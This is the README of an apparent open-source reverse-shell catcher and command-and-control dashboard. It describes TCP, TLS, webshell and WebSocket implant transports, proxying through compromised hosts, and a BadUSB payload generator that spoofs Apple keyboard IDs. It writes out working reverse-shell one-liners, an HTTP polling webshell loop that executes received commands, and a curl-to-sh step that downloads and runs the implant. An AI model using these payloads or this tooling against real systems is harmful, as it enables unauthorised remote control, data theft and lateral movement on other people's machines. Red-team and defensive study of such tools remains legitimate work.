

# reverse-shell-listener

[](https://opensource.org/licenses/MIT)
[](https://nodejs.org/)


A single-host, multi-transport reverse-shell catcher with a browser dashboard.



- **Transports:**
  - raw TCP reverse-shell listener
  - TLS reverse-shell listener
  - HTTP webshell beacon transport
  - multiplexed WebSocket/protobuf implant protocol with a Go client
- **Dashboard:**
  - live session list with a full PTY terminal (resize + mouse support)
  - per-host file transfer (upload + download) and native file-system browser
  - HTTP CONNECT proxy controls per mux host
  - BadUSB / DuckyScript generator with OS/arch target, device selector
    (Flipper Zero or USB Rubber Ducky), Apple VID/PID spoofing for macOS,
    and pre-payload delay
  - copyable payload examples (raw TCP, TLS, webshell, mux)
  - command palette (`Ctrl+K`) to jump to hosts/sessions
  - browser notifications for new sessions
  - one-click offline-session cleanup
  - session scrollback download
  - live in-memory event log
  - keyboard help overlay (`?`)
  - resizable sidebar and log panels
- **Auth:** session-cookie login; protects the dashboard, REST API, and browser-facing WebSocket endpoints.
- **Build panel:** cross-compile the Go mux client from the dashboard with the server URL baked in — supports linux/darwin/windows × amd64/arm64, plus armv7 (Luckfox/Shark Jack) and mipsle soft-float (MT7628).


## Quick start

```bash
npm install
npm run build
AUTH_USER=admin AUTH_PASS=s3cr3t npm start
```

Then browse to `http://localhost:8080`. `AUTH_USER` / `AUTH_PASS` are required.

## Docker

```bash
docker build -t reverse-shell-listener .
docker run -p 8080:8080 -p 1337:1337 -p 1338:1338 \
  -e AUTH_USER=admin -e AUTH_PASS=s3cr3t \
  reverse-shell-listener
```

Add `-p 3128:3128 -e PROXY_TOKEN=... -e PROXY_PORT=3128` if you want the HTTP
CONNECT proxy on its own port (recommended behind reverse proxies like Traefik).

The image bundles the frontend, the Node server, and the Go mux client
(`rsl-client` is on `$PATH` inside the container). The TLS transport
auto-generates a self-signed cert on first start using the bundled `openssl`.

## Scripts

| Script       | Description                          |
|--------------|--------------------------------------|
| `npm run build` | Bundle `src/` into `public/dist/` |
| `npm run watch` | Rebuild on change                |
| `npm start`     | Build + run the listener         |
| `npm run dev`   | Build + run with node --watch    |

## Configuration (env vars)

| Variable            | Default | Description                                      |
|---------------------|---------|--------------------------------------------------|
| `PORT`              | 8080    | HTTP dashboard + REST + WebSocket + webshell    |
| `HOST`              | 0.0.0.0 | Bind address                                     |
| `TCP_PORT`          | 1337    | Raw TCP reverse-shell listener                   |
| `TLS_PORT`          | 1338    | TLS reverse-shell listener                       |
| `ENABLE_TCP`        | true    |                                                  |
| `ENABLE_TLS`        | true    |                                                  |
| `ENABLE_WEBSHELL`   | true    |                                                  |
| `ENABLE_MUX`        | true    | Multiplexed Go client WebSocket transport        |
| `AUTH_USER`         |         | **Required.** Dashboard/REST/WS login username    |
| `AUTH_PASS`         |         | **Required.** Dashboard/REST/WS login password    |
| `AUTH_SECRET`       | random  | Pin session cookie secret across restarts        |
| `BUILD_TOKEN`       |         | Shared token for `/mux`, `/dl`, and `/webshell`  |
| `PROXY_TOKEN`       |         | HTTP CONNECT proxy password (username = host id) |
| `PROXY_PORT`        | 0       | Dedicated proxy port; 0 shares the API port      |
| `SCROLLBACK_BYTES`  | 1 MB    | Per-session in-memory scrollback cap             |
| `WEBSHELL_POLL_MS`  | 25000   | Long-poll hold time                              |
| `WEBSHELL_TIMEOUT`  | 30000   | Idle timeout before a webshell beacon is dead     |
| `MUX_PING_MS`       | 20000   | Keepalive ping interval for mux hosts            |

## Reverse-shell payloads

### Raw TCP

```bash
bash -i >& /dev/tcp/YOUR_HOST/1337 0>&1
```

### TLS

```bash
mkfifo /tmp/f; /bin/sh -i </tmp/f 2>&1 | \
  openssl s_client -quiet -connect YOUR_HOST:1338 >/tmp/f
```

The listener logs the certificate fingerprint on startup so the target can pin
it if desired.

### HTTP webshell

For firewalled targets that can only make outbound HTTP requests. The webshell
endpoints require the same `BUILD_TOKEN` used by `/mux` and `/dl`:

```bash
H=http://YOUR_HOST:8080; T=YOUR_BUILD_TOKEN
ID=$(curl -s "$H/webshell/register?token=$T")
while :; do
  C=$(curl -s -H "X-RSL-Token: $T" "$H/webshell/$ID/poll")
  [ -n "$C" ] && O=$(printf '%s' "$C" | sh 2>&1)
  curl -s -H "X-RSL-Token: $T" --data-binary "$O" "$H/webshell/$ID/output"
done
```

### Multiplexed Go client (mux)

Build and run the included Go client:

```bash
cd client
go build -o rsl-client ./cmd
./rsl-client -s ws://YOUR_HOST:8080/mux -t tag
```

Or use the `RSL_SERVER` env var:

```bash
RSL_SERVER=ws://YOUR_HOST:8080/mux ./rsl-client
```

The Go client opens a persistent WebSocket, reports hostname/user/OS/arch, and
spawns a real PTY for each channel the operator requests from the dashboard.
Resize events from xterm are forwarded to the remote PTY via `SIGWINCH`. On
disconnect it reconnects with linear backoff.

### HTTP CONNECT proxy

When `PROXY_TOKEN` is set, each mux host becomes an HTTP CONNECT proxy. The
dashboard shows the proxy URL and Basic auth for the selected host
(`host_id:PROXY_TOKEN`). Curl example:

```bash
curl -x http://rsl.example.com:3128 -U h1:YOUR_PROXY_TOKEN https://example.com
```

- `PROXY_PORT=0` (default): the proxy handler shares the dashboard/API port.
- `PROXY_PORT=3128`: the proxy listens on its own TCP port, which is easier to
  expose through reverse proxies like Traefik that cannot forward raw `CONNECT`
  tunnels on an HTTP route.

### Building the client from the dashboard

The dashboard's **Build client** panel (sidebar, bottom) cross-compiles the
Go client on the server and downloads the binary with the server URL and tags
baked in via `-ldflags -X`, so the downloaded client just runs with no args:

```bash
./rsl-client            # uses the baked-in server URL + tags
RSL_SERVER=ws://other:8080/mux ./rsl-client   # override at runtime
```

Available targets: `linux-amd64`, `linux-arm64`, `linux-arm-7`,
`linux-mips-softfloat`, `linux-mipsle-softfloat`, `linux-386`,
`darwin-arm64`, `darwin-amd64`, `windows-amd64`, `windows-arm64`.

### Download endpoints

`/dl?token=...&os=...&arch=...` cross-compiles and returns the Go client binary.
`/dl/s?token=...&os=...` returns a tiny one-liner script that curls `/dl` and
runs the binary, useful when the target can type only a short command:

```bash
# Linux/macOS target
curl -sL 'https://rsl.example.com/dl/s?token=YOUR_BUILD_TOKEN&os=linux' | sh
```

### BadUSB / DuckyScript generator

The dashboard can generate a DuckyScript payload that types a short bootstrap
command into the target. Choose the target OS/arch, the BadUSB device
(Flipper Zero / BadUSB or USB Rubber Ducky / Bash Bunny), and an initial delay.

On macOS the generator defaults to spoofing an Apple keyboard
(`VID 0x05ac / PID 0x0281`) so the target skips the Keyboard Setup Assistant.
The Rubber Ducky output uses `ATTACKMODE HID VID_05AC PID_0281`; the Flipper
output uses `ID 05ac:0281 Apple:Keyboard`.

## Cross-compiling the Go client manually

```bash
cd client
GOOS=linux GOARCH=amd64 go build -o rsl-client-linux-amd64 ./cmd
GOOS=linux GOARCH=arm64 go build -o rsl-client-linux-arm64 ./cmd
GOOS=darwin GOARCH=arm64 go build -o rsl-client-darwin-arm64 ./cmd
GOOS=windows GOARCH=amd64 go build -o rsl-client-windows-amd64.exe ./cmd
```

The client builds for all common OS/arch combinations. On Linux/macOS it uses a
real PTY; on Windows it falls back to a pipe-backed shell because a portable
Windows PTY is not included in this build.

## REST API

| Endpoint                         | Method | Description                              |
|----------------------------------|--------|------------------------------------------|
| `/api/sessions`                  | GET    | List all sessions                        |
| `/api/sessions/:id`              | GET    | Session metadata                         |
| `/api/sessions/:id/kill`         | POST   | Close the connection                     |
| `/api/sessions/:id/upgrade`      | POST   | Inject dumb-shell → PTY bash sequence    |
| `/api/sessions/:id/resize`       | POST   | Resize session / send SIGWINCH           |
| `/api/sessions/:id`              | DELETE | Drop session from registry               |
| `/api/sessions/clear-dead`       | POST   | Drop all offline sessions                 |
| `/api/build/targets`            | GET    | List available cross-compile targets      |
| `/api/build/client`             | GET    | Build + download Go client (target, server, tags) |
| `/api/hosts`                     | GET    | List mux hosts                           |
| `/api/hosts/:id`                 | GET    | Host metadata                            |
| `/api/hosts/:id/shells`          | POST   | Ask host to open a new PTY shell         |
| `/api/config`                    | GET    | Runtime config: proxy URL, tokens        |
| `/api/log`                       | GET    | In-memory event-log snapshot (`?since=ts`)

All mutating endpoints (`POST`, `DELETE`, etc.) require the `X-CSRF-Token`
header to match the `rsl_csrf` cookie issued at login.

## WebSocket endpoints

- `/api/ws/sessions` — JSON event stream for the session/host list
- `/api/ws/session/:id` — binary terminal channel + JSON control frames
- `/api/ws/log` — JSON event-log stream; replays history then streams live entries
- `/api/ws/host/:id/file` — file transfer relay to a mux host (JSON ↔ protobuf)
- `/api/ws/host/:id/fs` — native file-system browser relay (JSON ↔ protobuf)

Mux hosts advertise a feature bitmap in their `Hello` message. The dashboard
uses it to hide controls (file transfer, file manager, proxy) that older
clients do not support.

## Security

The dashboard grants shell access to every caught session, so it must not be
exposed to the public internet even with auth enabled. Run it bound to
localhost behind an SSH tunnel or on a trusted VPN. Only the reverse-shell
listener ports and (optionally) the webshell HTTP path should be reachable by
targets.

When `AUTH_USER` / `AUTH_PASS` are set, everything operator-facing is gated by
a signed `rsl_session` cookie issued at `/login`. The cookie is `HttpOnly` and
`SameSite=Strict`. Login also sets a non-`HttpOnly` `rsl_csrf` cookie; mutating
REST methods require the value in an `X-CSRF-Token` header.

Protected surfaces:

- the dashboard and static assets,
- all `/api/*` REST routes (CSRF-protected for `POST`/`DELETE`/etc.),
- the browser WebSocket endpoints `/api/ws/sessions`, `/api/ws/session/:id`,
  and `/api/ws/log` (express-ws upgrades bypass HTTP middleware, so each
  handler re-checks the cookie and closes the socket with `1008` if it is
  missing or invalid).

`AUTH_USER` / `AUTH_PASS` are required — the server refuses to start without
them.

`/mux`, `/dl`, and `/webshell` are gated by the shared `BUILD_TOKEN` when it is
set — implants carry this token because they cannot use operator session
cookies. `/webshell/register` accepts the token via `?token=` or the
`X-RSL-Token` header; `/webshell/:id/poll` and `/webshell/:id/output` require
it on every request. The raw TCP and TLS reverse-shell listeners are
unauthenticated by definition.

The server also sets `X-Content-Type-Options`, `X-Frame-Options`,
`Referrer-Policy`, and a `Content-Security-Policy` on every response. HSTS is
added only when the request is detected as HTTPS (e.g., behind an HTTPS reverse
proxy).

## Development

```bash
npm run watch      # frontend rebuild on change
# in another shell:
node --watch server.js
```

## Protocol buffer regeneration

After editing `proto/mux.proto`, regenerate the Go bindings:

```bash
go install google.golang.org/protobuf/cmd/protoc-gen-go@latest
export PATH=$PATH:$HOME/go/bin
protoc --go_out=client --go_opt=module=github.com/nemanjan00/reverse-shell-listener/client proto/mux.proto
```

## License

MIT
